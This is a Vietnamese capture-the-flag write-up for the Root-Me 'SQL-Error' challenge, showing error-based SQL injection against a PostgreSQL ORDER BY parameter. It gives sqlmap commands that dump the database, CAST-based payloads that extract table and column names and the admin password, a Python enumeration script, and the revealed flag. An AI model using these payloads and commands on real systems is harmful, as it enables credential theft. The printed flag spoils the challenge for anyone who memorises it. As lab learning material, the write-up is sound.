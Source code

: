 # SQL-Error

**Point: 40**

**Exploiting SQL error**

**Statement: Retrieve administrator’s password.**

**Related ressources:**

[Khai thác Error based SQL injection](https://whitehat.vn/threads/sql-injection-khai-thac-error-based-sql-injection.5664/)

[Error Based Injection](https://sqlwiki.netspi.com/injectionTypes/errorBased/#postgresql)

[SQL Payload List](https://github.com/payloadbox/sql-injection-payload-list)

[Information schema](https://www.postgresql.org/docs/9.1/information-schema.html#:~:text=The%20information%20schema%20consists%20of,defined%20in%20the%20current%20database.&text=Some%20other%20views%20have%20similar,%2C%20constraint_column_usage%2C%20constraint_table_usage%2C%20table_constraints)

# Overview:

![image](https://user-images.githubusercontent.com/115911041/234256771-e502129c-1539-482d-b6e4-db8d0932b92a.png)

Form của challenge. Lần này challenge cung cấp cho ta 2 mục `Authentication` và `Contents`. Ban đầu thấy mục `Authentication` có chức năng Login, mình đã thử fuzz nhưng kết quả cho ra là `login failed`. Mình chuyển sang mục `Contents`

![image](https://user-images.githubusercontent.com/115911041/234257979-f60dad57-c246-40dc-9e5a-94aa89169ae0.png)

Nhận thấy URL có thay đổi. Thấy xuất hiện `order` và `ASC`, nghĩa là ở đây đang sử dụng lệnh `order by` và `ASC` là sắp sếp theo thứ tự tăng dần. Mình sẽ thử fuzz 

![image](https://user-images.githubusercontent.com/115911041/234265663-6536c738-9b3c-4d26-af47-322c912aad32.png)

Ban đầu là thêm dấu nháy `'` thì có lỗi báo giống như dự đoán là  đang sử dụng `order by` theo cột page và `ERROR: syntax error at or near "''"` nghĩa là database đang chạy là PostgreSQL.

Vậy đối với challenge này ta dùng Error-Based Blind SQL Injection. Phương thức này là cơ bản là một phương thức mà câu truy vấn của mình sẽ khiến server trả về thông báo lỗi, từ thông báo lỗi đó có thể chứa nội dung truy vấn hoặc các thông tin của cơ sở dữ liệu để chúng ta có thể khai thác xa hơn.

Đối với PostgreSQL thì chỉ có 1 lỗi ta có thể khai thác SQL injection - `đổi kiểu dữ liệu từ dạng chuỗi sang dạng số`- `INT`. Ta có 2 hàm sử dụng là `Cast()` và `Convert`
đối với PostgreSQL thì ta sử dụng `Cast()`

Một cách khác nữa là ta sử dụng SQL map

# Solution:

# Cách 1:

Sử dụng câu lệnh sau

`python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" --dbs` 

![image](https://user-images.githubusercontent.com/115911041/234262375-2723de88-19fb-49fc-a8b6-a86762c871dd.png)

Kết quả trả về cho ta thấy bài này xuất hiện 2 cách khai thác sqli bao gồm khai khác blind và error. Có 3 database trả về, tuy nhiên ta chỉ cần chú ý đến database public là được. Thực hiện lấy các tables trên database này

`python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public --tables`

`-D public` là lấy kết quả trong `database public` còn `--tables` sử dụng để lấy tên các bảng.

![image](https://user-images.githubusercontent.com/115911041/234263135-d1a7ceb6-2218-4a4e-95de-126a678f2f07.png)


Kết quả cho ra table là  `m3mbr35t4bl3`. Thực hiện lấy data trong table

`python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public -T m3mbr35t4bl3 --dump`

`-T` là bảng cần lấy data, `--dump` lầy toàn bộ dữ liệu.

![image](https://user-images.githubusercontent.com/115911041/234263711-6ac5cf8d-5db7-4525-a3ed-1784cb72e91b.png)

Kết quả cho ra 1 hàng dữ liệu của admin `Flag: 1a2BdKT5DIx3qxQN3UaC`

# Cách 2:

Ta nhớ lại là với mỗi câu truy vấn lỗi thì ta đều sẽ nhận được thông báo lỗi từ server. Và trong tài liệu mình đọc thì có một cách để khai thác lỗi này đó và dựa vào những câu lệnh ép kiểu.

Ép kiểu trong sql thì cũng giống như ép kiểu trong lập trình vậy. Nó sẽ chuyển kiểu dữ liệu của một biến hay một giá trị từ kiểu này sang kiểu khác. Nhưng mà hai kiểu này phải tương đồng với nhau. Ví dụ như từ int sang float , float sang int, … chứ không thể chuyển từ string mà chuyển qua int hay float được.

Những payload hay tên của table mình có tham khảo ở mục số (2) và (3) mà mình đã cung cấp ở `related resources`.

Bây giờ ta sẽ chèn payload như sau

`,cast(chr(126)||(select+table_name+from+information_schema.tables+limit+1,1)||chr(126)+as+numeric)--`

![image](https://user-images.githubusercontent.com/115911041/234294290-692d4acd-8d04-40dd-a01e-c6931c26ef59.png)

Nó gợi ý mình sài LIMIT kèm với OFFSET mới được.Mình sẽ thử `limit 1 offset 0`

`,cast(chr(126)||((select+table_name+from information_schema.tables+limit+1+offset+0)||chr(126))+as+numeric)--`

![image](https://user-images.githubusercontent.com/115911041/234301011-642de513-135b-4063-9aba-255799657659.png)

Bây giờ ta sẽ khai thác tên cột bằng cách chèn payload

`,cast(chr(126)||((select+column_name+from+information_schema.columns+limit+1+offset+0)||chr(126))+as+numeric)--`

![image](https://user-images.githubusercontent.com/115911041/234286649-cc9bba23-05fa-4f0c-a07e-dbc78ecb4760.png)

Mình để offset là 0 thì có result là `id`. Tiếp theo dùng Burp Intruder để cho off set chạy

![image](https://user-images.githubusercontent.com/115911041/234287538-dceda6c1-2290-4657-a653-f00c8e725251.png)

![image](https://user-images.githubusercontent.com/115911041/234288018-5cb4fd01-7a5e-4193-9bd6-8b915a791d4f.png)

May là offset ở vị trí 1 và 2 `us3rn4m3_c0l` và `p455w0rd_c0l`.Bây giờ mình sẽ khai thác dữ liệu của 2 cột

`,cast(chr(126)||(select us3rn4m3_c0l from m3mbr35t4bl3 limit 1 offset 0) as numeric)–-`

`,cast(chr(126)||(select p455w0rd_c0l from m3mbr35t4bl3 limit 1 offset 0) as numeric)--`

![image](https://user-images.githubusercontent.com/115911041/234288968-48b0f50d-5b60-43f4-a1cd-076c9315b625.png)

*Bonus:

Khi mà các bạn tìm được `table_name` á, thay vì ta sẽ chạy offset để tìm `column_name` bằng burp intruder ta có thể coding một chút 

```
import requests
import sys

URL='http://challenge01.root-me.org/web-serveur/ch34/'
for i in range(0, 1001):
    query = 'ASC, (CAST((select column_name from information_schema.columns limit 1 offset ' + str(i) + ') as int))--'
    params = {'action': 'contents', 'order': query}
    http = requests.get(url= URL, params =params)
    content = http.content.decode("utf-8")
    print(content[400:])
```    

OUTPUT:
![image](https://user-images.githubusercontent.com/115911041/234318522-d10ca3c5-04e4-414c-986b-548e6b8e83c8.png)

Kết quả cho ra 2 column `us3rn4m3_c0l` và `p455w0rd_c0l`. Thông thường thì username sẽ tương ứng với mật khẩu. Giờ ta sẽ các user trong column `us3rn4m3_c0l`  và idnex tương ứng, sau đó lấy index tương ứng để gửi query bên `p455w0rd_c0l`.

![image](https://user-images.githubusercontent.com/115911041/234322283-a3090d6b-7863-4b00-b4b2-2df35cc493a2.png)

Ta thấy admin ứng với `0`. Thì nó khá giống với cái cách mà ta offset ở trên `offset 0`. Còn không các bạn có thể làm kiểu này lun cho nó ngầu :))))

![image](https://user-images.githubusercontent.com/115911041/234322915-5f091479-f343-4a40-b15a-fca4b4a4346b.png)

Ra password lun, tương ứng vị trí `admin` khi mà ta quét user ở column `us3rn4m3_c0l`.





